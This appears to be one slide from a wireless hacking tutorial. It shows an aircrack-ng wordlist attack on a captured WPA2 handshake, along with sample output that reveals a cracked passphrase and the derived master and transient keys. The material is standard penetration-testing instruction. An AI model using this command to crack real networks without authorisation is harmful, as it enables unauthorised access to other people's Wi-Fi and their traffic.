

Command-9 -> aircrack-ng –a2 64:EE:C7:C0:D7:06 –w /root/Desktop/Password_List WPA2_File*.cap

 		⇓⇓⇓⇓ Will SHOW IN THE SCREEN ⇓⇓⇓⇓⇓

		                                   Aircrack-ng

   		              [00:00:00] 21/212 keys tested (3107.20 k/s)

     		                    KEY FOUND! [ PineApple123 ]

  		  Master Key     : CD 69 0D 11 8E AC AA C5 C5 EC BB 59 85 7D 49 3E
         		                 B8 A6 13 C5 4A 72 82 38 ED C3 7E 2C 59 5E AB FD

  		  Transcient Key : 06 F8 BB F3 B1 55 AE EE 1F 66 AE 51 1F F8 12 98
    		                   CE 8A 9D A0 FC ED A6 DE 70 84 BA 90 83 7E CD 40
		                     FF 1D 41 E1 65 17 93 0E 64 32 BF 25 50 D5 4A 5E
		                     2B 20 90 8C EA 32 15 A6 26 62 93 27 66 66 E0 71

 		   EAPOL HMAC     : 4E 27 D9 5B 00 91 53 57 88 9C 66 C8 B1 29 D1 CB